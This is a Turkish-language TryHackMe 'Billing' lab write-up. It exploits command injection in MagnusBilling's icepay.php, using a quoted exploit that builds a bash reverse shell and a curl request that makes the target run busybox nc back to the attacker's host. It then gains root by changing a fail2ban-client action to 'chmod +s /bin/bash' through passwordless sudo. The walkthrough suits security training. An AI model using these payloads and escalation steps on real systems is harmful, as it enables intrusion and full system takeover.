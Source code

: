 ```yaml
---
title: 'TryHackMe | Billing WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [command injection, fail2ban, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_billing/
image:
  path: logo.webp
---
```


## Özet

Magnus Billing isimli web uygulamasında bir command injection zafiyeti olduğunu tespit edeceğiz. Bu zafiyeti sömürdükten sonra fail2ban-client programını parola kullanmadan root haklarında çalıştırabileceğimizi öğreneceğiz. Aktif bir işleme kural atadıktan sonra ise yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.66.239
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.66.239/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql   MariaDB (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Web uygulamasının başlığında `MagnusBilling` adında bir ifade bulunuyor ve ana sayfaya gittiğimizde bizi /mbilling/ adresine yönlendiriyor. Dolayısıyla hazır bir sistem kullanıyor olabileceğini düşündüm. İnternette yaptığım kısa bir aramadan sonra [bu](https://github.com/hadrian3689/magnus_billing_rce/blob/main/magnus_rce.py) exploit ile karşılaştım. Güvenlik açığını sömüren fonksiyon aşağıdaki şekildedir.

```py
def exploit(self):
    requests.packages.urllib3.disable_warnings()
    print("Sending payload...")
    payload = "bash -c 'bash -i >& /dev/tcp/" + self.lhost + "/" + self.lport + " 0>&1'"
    encoded_payload_1 = self.convert_to_b64(payload)
    encoded_payload_2 = self.convert_to_b64(encoded_payload_1)
    target_url = self.url + "lib/icepay/icepay.php?democ=null;echo " + encoded_payload_2 + "|base64 -d|base64 -d|sh;null"
    upload_req = requests.get(target_url,verify=False)
```

Gördüğünüz üzere verilen lhost ve lport bilgisiyle bir payload oluşturuyor, oluşturduğu payloadı iki kez `base64` ile kodluyor, daha sonra ise `icepay.php` sayfasına `democ` parametresi ile beraber gönderiyor. Tabi göndermeden önce payloada bir kaç komut daha giriyor. base64 ile kodlanmış komutun çalışması için çözülmesi gerek.

## Sömürü aşaması

Payloadı base64 ile kodlamamıza gerek yok, herhalde bir sorun ile karşılaşmak istemediğinden doğrudan o şekilde payloadı gönderiyor.

```console
$ curl 'http://10.10.66.239/mbilling/lib/icepay/icepay.php?democ=;busybox+nc+10.21.66.61+1234+-e+/bin/bash;'
```

Sistemde ncat aracının bulunduğunu tahmin ettim ve dinlediğim `1234` numaralı port üzerinden bağlantı alabilmek için yukarıda gördüğünüz komutu kullandım. Herhangi bir sorun çıkarmadan bağlantımı alabildim.

```console
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.66.239] 43226
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
```

Bu arada command injection zafiyetine sebep olan kod bloğunu aşağıda görebilirsiniz.

```php
if (isset($_GET['democ'])) {
    if (strlen($_GET['democ']) > 5) {
        exec("touch " . $_GET['democ'] . '.txt');
    } else {
        exec("rm -rf *.txt");
    }
}
```

## Yetki yükseltme

### root

Kullanıcının sudo yetkilerini görüntülediğimizde fail2ban-client adında bir dosyayı parola kullanmadan root haklarıyla çalıştırabileceğimizi görüyoruz.

```console
asterisk@Billing:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

fail2ban-client aracı fail2ban ile etkileşim kurmak adına kullanılan bir yardımcı araçtır. fail2ban ise belirli kurallar dahilinde sistemdeki olağandışı hareketleri tespit eden ve tespit ettiği olaylara müdahale eden bir araçtır.

```console
asterisk@Billing:/home/magnus$ sudo -u root /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
```

Gördüğünüz üzere sekiz adet aktif işlem var.

```console
...
[mbilling_login]
enabled  = true
filter   = mbilling_login
action   = iptables-allports[name=mbilling_login, port=all, protocol=all]
logpath  = /var/www/html/mbilling/protected/runtime/application.log
maxretry = 3
bantime = 300

[ip-blacklist]
enabled   = true
filter    = ip-blacklist
action    = iptables-allports[name=ASTERISK, protocol=all] 
logpath   = /var/www/html/mbilling/resources/ip.blacklist
maxretry  = 0
findtime  = 15552000
bantime   = -1


[sshd]
enablem=true

[mbilling_ddos]
enabled  = true
filter   = mbilling_ddos
action   = iptables-allports[name=mbilling_ddos, port=all, protocol=all]
logpath  = /var/log/apache2/error.log
maxretry = 20
bantime = 3600
```

Yukarıda aktif işlemlerin bir kısmı bulunuyor. Her birine birer log dosyası verilmiş ve olandığışı bir hareket olduğu durumda belirtilen eylemi yapması söylenmiş. fail2ban-client aracından yararlaranak bu şekilde bir işlem oluşturmamız veya halihazırda olan bir işlemi düzenlememiz gerekiyor. Yukarıda gördüğünüz üzere `sshd` dışındaki tüm işlemlerin kuralları belirtilmiş. sshd'ye bir kural atamayı ve shell almayı deneyelim.

```console
asterisk@Billing:/home/magnus$  sudo -u root /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "chmod +s /bin/bash"
```

Öncelikle `sshd`'nin eylemini `chmod +s /bin/bash` komutu ile değiştiriyoruz. Böylelikle bir sorun ile karşılaştığında `/bin/bash` dosyasına `SUID` biti atayacak. Daha sonra rastgele bir IP adresini banlıyoruz. Böylelikle belirttiğimiz komut root haklarında çalıştırılıyor ve `/bin/bash` dosyasına `SUID` biti atılıyor.

```console
asterisk@Billing:/home/magnus$ sudo -u root /usr/bin/fail2ban-client set sshd banip 1.2.3.4
asterisk@Billing:/home/magnus$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
asterisk@Billing:/home/magnus$ bash -p
bash-5.1# id
uid=1001(asterisk) gid=1001(asterisk) euid=0(root) egid=0(root) groups=0(root),1001(asterisk)
```

`bash -p` komutunu kullandıktan sonra ise root haklarına sahip oluyoruz.
